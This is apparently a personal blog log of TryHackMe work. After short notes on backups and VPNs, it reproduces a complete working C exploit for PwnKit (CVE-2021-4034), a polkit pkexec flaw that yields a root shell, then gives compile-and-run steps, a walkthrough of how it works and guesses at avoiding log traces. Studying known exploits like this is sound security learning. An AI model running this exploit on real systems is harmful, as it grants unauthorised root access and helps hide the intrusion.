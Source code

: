 ```yaml
---
title: 'TryHackMe: Common Attacks &amp; Pwnkit'
date: 2022-02-03 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-02-03-tryhackme-common-attacks-and-pwnkit.html
author: 100007
---
```


# TryHackMe: Common Attacks & Pwnkit

**author:** Nathan Acks  
**date:** 2022-02-03

# Common Attacks

## Public Network Safety

I really do wish that guides like this would stop highlighting VPNs – their utility is just really unclear for most people anymore!

## Backups

“3, 2, 1” is a good mnemonic for backups:

- THREE or more copies
- TWO or more different storage devices
- ONE or more offsite backups

Though honestly, this is kind of a “minimum viable backup” strategy, since simply using a cloud service to mirror data between two devices would qualify! (Why? Working data counts as a copy…)

# Pwnkit (CVE-2021-4034)

## Exploitation

Quick-n-dirty Pwnkit exploit:

```
/*
* Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit's pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
* Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
*/
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell =
"#include <stdio.h>
"
"#include <stdlib.h>
"
"#include <unistd.h>
"
"void gconv() {}
"
"void gconv_init() {
"
" setuid(0); setgid(0);
"
" seteuid(0); setegid(0);
"
" system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");
"
" exit(0);
"
"}";
int main(int argc, char *argv[]) {
FILE *fp;
system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
fp = fopen("pwnkit/pwnkit.c", "w");
fprintf(fp, "%s", shell);
fclose(fp);
system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

The exploit is then as simple as `gcc $FILE -o exploit; ./exploit`.

Here’s what basically happens on execution:

- The exploit creates the path `GCONV_PATH=.` in the current directory and adds an invalid executable file to it.
- The exploit creates a second directory called `pwnkit` and sets up a malicious shared library designed to be loaded by GLib to translate system messages to the made-up character set “PWNKIT”.
- The exploit calls `pkexec` with a NULL argument list (this bit is important, since we need the length of the argument list to be 0 – so, not even to contain the name of `pkexec` itself) _but_ with a correctly set up (albeit malicious) environment via `execve()`. Importantly, the first “variable” in the environment is actually the name of the (invalid) executable in the `GCONV_PATH=.` directory.
- Polkit just falls through the loop that it would normally use to walk through the passed-in arguments. This causes what would be pointing to an executable name to instead point to the first environment variable that’s passed into `execve()`, which happens to be string `pwnkit`.
- Polkit looks up the malicious executable, finds it in `GCONV_PATH=./pwnkit` (because we set the PATH to that directory), and then tries to replace the executable name with this full path. _Except_ that it’s still writing to the first element of the environment, which causes `pwnkit` to be replaced by `GCONV_PATH=./pwnkit`.
- Polkit the proceeds to sanitize its environment. When it comes to the invalid SHELL variable this sanitization fails and Polkit throws an error and dies. _But!_ Before dying, Polkit tries to _print_ the error using a GLib function that dutifully attempts to translate the message into the “PWNKIT” character set. To figure out how to do this, modules are loaded from GCONV\_PATH… And we’ve defined a malicious module to do this that cleans up the exploit files and spawns a root shell (since `pkexec` is SUID root).

This version of the exploit cleans up after itself, but does depend on generating a log message. The Qualsys advisory describing Pwnkit notes that “this vulnerability is also exploitable without leaving any traces in the logs, but this is left as an exercise for the interested reader.” My guess is that to do this you’d need to reintroduce a different environment variable that `ld.so` normally strips when calling SUID binaries. (At least, I don’t immediately see any place where Polkit is printing something that _isn’t_ a warning before it nukes its own environment, but then I’m not super-familiar with C and am only quickly skimming the `pkexec` source code.) _Or_ perhaps you can do something with the permissions of the `GCONV_PATH=./pwnkit` file to trigger an error that would not be logged. (The trick here would be to do something so that `g_find_program_in_path()` resolves `GCONV_PATH=./pwnkit` but `access()` returns an error; it’s not obvious to me how to do this though, or even if it _can_ be done!)

It took me a while to figure out why this exploit doesn’t occur when `pkexec` is called without any arguments, since it will still fall through the initial argument-parsing loop. The reason this doesn’t happen is that `argv[1]` is NULL in this case (the last element of `argv` is always the NULL pointer), so the first string of the environment isn’t wrongly loaded _and_ and entirely separate code path is triggered before the `GCONV_PATH=./pwnkit` variable would have gotten written into the environment. (It’s worth noting that Debian derivatives seem to have removed the `sudo -s` like functionality from `pkexec` entirely, and just display a help message in this case.)

- [arthepsy / CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)
- [pwnkit: Local Privilege Escalation in polkit’s pkexec (CVE-2021-4034)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)
- [polkit / src / programs / pkexec.c (commit 539bf5dc)](https://gitlab.freedesktop.org/polkit/polkit/-/blob/539bf5dcca489534f42798a4500aca4b1a8ec8d0/src/programs/pkexec.c)
